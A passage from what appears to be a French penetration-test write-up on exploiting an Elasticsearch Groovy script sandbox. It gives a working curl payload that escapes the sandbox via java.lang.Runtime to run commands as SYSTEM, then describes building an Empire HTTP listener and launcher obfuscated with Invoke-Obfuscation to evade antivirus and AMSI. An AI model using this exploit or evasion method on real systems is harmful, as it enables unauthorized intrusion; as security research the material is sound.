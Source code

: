 Prenons par exemple la classe java.lang.Math, nous pouvons tout à fait effectuer l'appel suivant :

```java
java.lang.Math.class.forName("java.lang.Runtime")
```

Le code est valide dans le contexte de la sandbox, et nous récupérons une classe java.lang.Runtime qui permet d'exécuter du code Java arbitraire sur la machine.



## Exécution de code système

Une fois que nous avons la possibilité d'exécuter du code Java arbitraire sur la machine, c'est assez rapide d'exécuter n'importe quelle commande présente sur le système.

```java
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("whoami").getText()
```

Cette ligne permet d'exécuter la commande `whoami` sur le serveur vulnérable.

```bash
$ curl http://localhost:9200/_search?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'

{
  <snip>
  "hits" : {
    "total" : 8,
    "max_score" : 1.0,
    "hits" : [ {
      <snip>
      "fields" : {
        "myscript" : [ "NT AUTHORITY\SYSTEM" ]
      }
    }
}}
```

Nous remarquons que nous avons les privilèges SYSTEM sur la machine.

## Session Empire

### Création du payload

Maintenant qu'il est possible d'exécuter du code sur la machine distante, et après vérification de la présence de Powershell sur cette machine, le framework "Empire" a été utilisé afin d'exécuter une charle utile en mémoire, sans écriture sur disque.

Pour cela, un "Listener HTTP" a été créé dans Empire pour recevoir les futures connexions de la machine cible et le code devant être exécuté sur la machine cible a également été généré (création d'un "launcher" dans Empire).
 
Cependant, afin de ne pas se faire bloquer par l'antivirus et par l'AMSI, cette charge utile a été offusquée à l'aide de l'outil Powershell "Invoke-Obfuscation".
 